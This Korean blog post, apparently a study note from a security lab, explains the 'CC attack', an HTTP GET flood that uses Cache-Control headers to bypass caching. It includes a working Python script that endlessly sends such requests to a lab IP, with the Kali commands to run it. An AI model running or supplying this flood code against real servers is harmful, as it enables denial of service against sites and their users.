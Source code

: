 ```yaml
---
title:  "cc attack" 

categories:
  - Dos
tags:
  - [dos]

toc: true

date: 2022-10-04
last_modified_at: 2022-10-04
---
```


## CC Attack

- CC Attack (=GET Flooding with Cache-Control Attack)

  - HTTP Request의 Cache-Control 메시지 헤더를 조작하여 Cache 서비스가 가능한 자원도 웹 서버가 직접 처리하도록 유도 함

    > Cache-Control: no-store; must-revalidate

    > no-store → 클라이언트에게 요청 받은 데이터를 디스크, 메모리, 별도의 저장 장치(Cache Server)에 저장하는 것을 금지

    > must-revalidate → 웹 서버가 Caching Server에게 저장된 Cache에 대한 검증을 요구하는 메시지(서 버가 전달하는 값)

  - Caching 기능을 무력화 시켜서 웹 서버의 부하를 유발하는 공격

  - Caching Server를 운영하는 웹 사이트가 공격 대상이 될 수 있음

- Cache-Control: no-cache

  - 한꺼번에 여러 글자를 받아서 처리 하지 말고 사용자들이 보내는대로 처리

  - 공격자가 문자를 보내지 않으면 서버는 항상 문자열 대기 상태로 바뀜

    > 이러한 연결을 반복적으로 진행

  - 공격대상 웹서버로 Cache-Size 를 0으로 설정해서 보내면 대상 웹서버는 인코딩된 문자열을 동시에 처리할수 없고 한글자씩 처리

- 공격

  - python 코드를 이용하여 파일 생성

    ```
    ┌──(root㉿kali)-[~]
    └─# vim http_getflood.py 
    ```

    ```
    vi http_getflood.py
    
    import socket
    import time
     
    request_header = 'GET /INDEX.html HTTP/1.1\r\n'
    request_header += 'HOST: 172.16.0.120\r\n'
    request_header += 'Cache-Control: no-cache\r\n'
    request_header += '\r\n'
     
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect(('172.16.0.120',80))
     
    while True:
        sock.send(request_header.encode())
    ```

    ![화면 캡처 2022-10-06 163824](../../assets/img/화면 캡처 2022-10-06 163824.png)

  - 실행 후 확인

    ```
    ┌──(root㉿kali)-[~]
    └─# python2 http_getflood.py http://172.16.0.120
    ```

    ![화면 캡처 2022-10-06 163946](../../assets/img/화면 캡처 2022-10-06 163946.png)

    

    

